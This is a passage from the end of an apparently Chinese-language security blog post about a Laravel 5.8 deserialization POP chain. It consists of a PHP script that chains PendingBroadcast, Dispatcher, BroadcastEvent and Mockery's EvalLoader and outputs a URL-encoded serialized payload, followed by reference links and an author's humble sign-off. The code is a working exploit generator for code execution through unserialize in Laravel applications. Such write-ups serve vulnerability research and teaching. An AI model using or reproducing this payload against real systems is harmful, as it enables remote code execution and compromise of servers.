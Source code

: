 ```php
}

namespace Mockery\Loader {
    class EvalLoader
    {
        public function load(MockDefinition $definition)
        {

        }
    }
}

namespace {
    $Mockery = new Mockery\Loader\EvalLoader();
    $queueResolver = array($Mockery, "load");
    $MockConfiguration = new Mockery\Generator\MockConfiguration();
    $MockDefinition = new Mockery\Generator\MockDefinition($MockConfiguration);
    $BroadcastEvent = new Illuminate\Broadcasting\BroadcastEvent($MockDefinition);
    $Dispatcher = new Illuminate\Bus\Dispatcher($queueResolver);
    $PendingBroadcast = new Illuminate\Broadcasting\PendingBroadcast($Dispatcher, $BroadcastEvent);
    echo urlencode(serialize($PendingBroadcast));
}
?>
```

## 参考链接

1. [Laravel5.8.x反序列化链](https://mochazz.github.io/2019/08/05/Laravel5.8.x反序列化链/#POP链1)
2. [Laravel mockery组件反序列化POP链分析](https://xz.aliyun.com/t/5866)

**文笔垃圾，措辞轻浮，内容浅显，操作生疏。不足之处欢迎大师傅们指点和纠正，感激不尽。**